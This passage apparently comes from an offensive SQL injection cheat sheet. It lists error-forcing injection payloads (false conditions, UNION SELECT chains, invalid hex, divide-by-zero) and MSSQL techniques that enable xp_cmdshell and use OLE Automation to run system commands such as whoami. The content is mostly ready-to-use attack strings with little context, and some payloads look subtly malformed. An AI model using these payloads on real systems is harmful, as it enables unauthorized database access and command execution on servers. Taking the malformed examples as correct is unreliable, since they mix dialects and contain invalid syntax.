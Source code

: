 ### 7. Blind SQL Injection Errors

#### Deliberate False Condition
- Use a false condition to force an error indirectly.
  ```sql
  ' AND 1=(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='non_existent_database') --
  ```

### 8. Advanced Error Techniques

#### Recursive Queries
- Use recursive queries to force errors.
  ```sql
  ' UNION SELECT 1 FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3 UNION SELECT 4) AS temp WHERE temp=1 --
  ```

#### Invalid Hexadecimal Values
- Use invalid hexadecimal values to trigger errors.
  ```sql
  ' UNION SELECT 0xZZ --
  ```

### 9. Combining Techniques

#### Chained Error Forcing
- Combine multiple error-forcing techniques for more robust results.
  ```sql
  ' UNION SELECT CONVERT(INT, 'abc') UNION SELECT 1/0 UNION SELECT TO_NUMBER('abc', '999') --
  ```

### Techniques to Force Errors from Databases for SQL Injection

Below are some advanced and rare SQL injection techniques for MSSQL, MySQL, and Oracle. These techniques go beyond the basic ones and exploit specific features and configurations of the databases.

### MSSQL

1. **OLE Automation Procedures**

   ```sql
   DECLARE @Object INT;
   EXEC sp_OACreate 'WScript.Shell', @Object OUTPUT;
   EXEC sp_OAMethod @Object, 'Run', NULL, 'cmd.exe /c whoami > C:\output.txt';
   ```

   This uses OLE Automation procedures to execute system commands.

2. **XP_CMD Shell with Privilege Escalation**

   ```sql
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell', 1;
   RECONFIGURE;
   EXEC xp_cmdshell 'whoami';
   ```
